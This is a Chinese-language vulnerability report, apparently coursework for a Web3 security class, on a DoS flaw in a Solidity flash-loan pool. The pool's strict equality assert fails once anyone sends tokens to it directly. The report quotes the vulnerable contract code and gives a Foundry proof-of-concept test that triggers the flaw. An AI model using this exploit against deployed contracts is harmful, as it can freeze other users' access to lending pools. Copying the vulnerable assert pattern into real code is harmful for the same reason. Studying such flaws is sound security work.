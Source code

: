 # 攻擊者轉帳給 pool 造成 DOS

# Lines of code

https://github.com/z-institute/Web3-Security-Dev-Batch-1-HW/blob/main/w3/src/LenderPool.sol#L31-L46

https://github.com/z-institute/Web3-Security-Dev-Batch-1-HW/blob/main/w3/src/LenderPool.sol#L24-L29

# Vulnerability details

function flashLoan 裡，poolBalance 必須等於 balanceBefore，function 才會繼續執行:

```
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = amazingToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);

    amazingToken.transfer(msg.sender, borrowAmount);

    IReceiver(msg.sender).receiveTokens(address(amazingToken), borrowAmount);

    uint256 balanceAfter = amazingToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

但只有在 function depositTokens 被調用時，poolBalance 才會更新數值：

```
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    amazingToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

因此攻擊者可藉由 token.transfer(address(pool), 1)轉帳給 pool，使池中金額增加－後續調用 flashLoan function 時會更新 balanceBefore 數值，但 poolBalance 的數值沒有更新－即可讓斷言失敗，造成 function flashLoan 無法運作。

# Impact

任何人都能透過轉帳給 pool 任意金額這種方式，讓 flashLoan function 無法運作，達成 DOS 攻擊。

# PoC

以下程式碼用以驗證漏洞。

```
function testExploit() public {
    /**
        * CODE YOUR EXPLOIT HERE
        */
    vm.prank(attacker);
    token.transfer(address(pool), 1);
    /**
        * SUCCESS CONDITIONS
        */
    vm.expectRevert(stdError.assertionError);
    vm.prank(someUser);
    receiverContract.executeFlashLoan(10);
}
```
